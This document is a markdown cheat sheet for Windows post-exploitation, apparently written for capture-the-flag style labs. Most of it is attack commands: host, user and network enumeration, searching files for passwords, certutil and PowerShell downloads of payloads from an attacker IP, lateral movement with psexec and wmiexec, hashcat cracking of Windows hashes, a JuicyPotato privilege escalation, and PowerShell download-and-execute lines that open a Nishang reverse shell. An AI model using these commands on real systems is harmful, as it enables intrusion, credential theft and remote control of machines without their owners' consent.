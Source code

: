 
## System enumeration

### enumerate from meterpreter shell
```
sysinfo
```

### get shell
```
shell
```

### get system info from shell
```
systeminfo
```
this shows us installed date, boot time, hot fixes installed or not.

## User enumeration 

### Find out loggedin user and his privilages
```
whoami
whoami /priv
```

### Find all users on the host
```
net users
```

### Find details of specific user
```
net user janith
```

### Find whos on administrator group
```
net localgroup administrators
```

## Network enumeration

###Find host ip
```
ipconfig
ipconfig /all
```

## Searching for passwords

### Search for passwords
```
findstr /si password *.txt
```

## AV and Firewall enumeration

### Find all the services running
```
sc queryex type= service 
```

### Check firewall info
```
netsh advfirewall firewall dump
netsh firewall show state
```

### metersploit local exploit sugester
```
run post/multi/recon/local_exploit_suggester
```
run this script using the session 

### Run windows exploit suggester using systeminfo
```
python windows-exploit-suggester.py --database 2020-10-12-mssb.xls --systeminfo sysinfo.txt
```

## Downloading files into windows host
first go to c:/temp folder
```
certutil -urlcache -f http://10.10.14.32/temp.exe temp.exe
```

## Download files using powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.1/shell.exe', 'c:\Users\Public\Downloads\shell.exe')"
```

## Windows subsystem for linux

### Search for bash or wsl
```
where /R C:\windows bash.exe
where /R C:\windows wsl.exe
```
If you found connect to linux sub folder and search for history.

## Use credentials to login using psexec.py
```
psexec.py USER:PASSWORD@DOMAIN
smbexec.py USER:PASS@DOMAIN
wmiexec USER:PASS@DOAMIN
```

## connect to SMB using credentials
```
smbclient \\\\IP\\FOLDER -U USER
```

## SAM file path
```
C:\Windows\System32\Config
```

## Crack windows hash using hashcat
```
hashcat -a 0 -m 1000 cred.hash rockyou.txt --force
```

## Imporsanate privilage escalate

### Search for privilages
```
whoami /priv
```

### Use this command to search meterpreter session
```
getprivs
```

## These privilages are vulnerable to juicypotato attacks
```
SeImporsanatePrivilage Enable
SeAssignPrimaryToken Enable 
```

## JuicyPotato Exploit
download the executable from
```
https://github.com/ohpe/juicy-potato/releases
```
Upload file
```
(new-object net.webclient).downloadfile('http://10.10.14.45:5555/JuicyPotato.exe', 'C:\Users\Public\Downloads\jp.exe')
```
Create a shell.bat file
```
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

copy clsid from here
```
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro
```
run juicy potato
```
./jp.exe -t * -p shell.bat -l 4444
./jp.exe -t * -p shell.bat -l 4444 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```


## Use nishang script to gain reverse shell
```
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.45:5555/shell.ps1')
```

## Running powershell from cmd
```
cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')
```

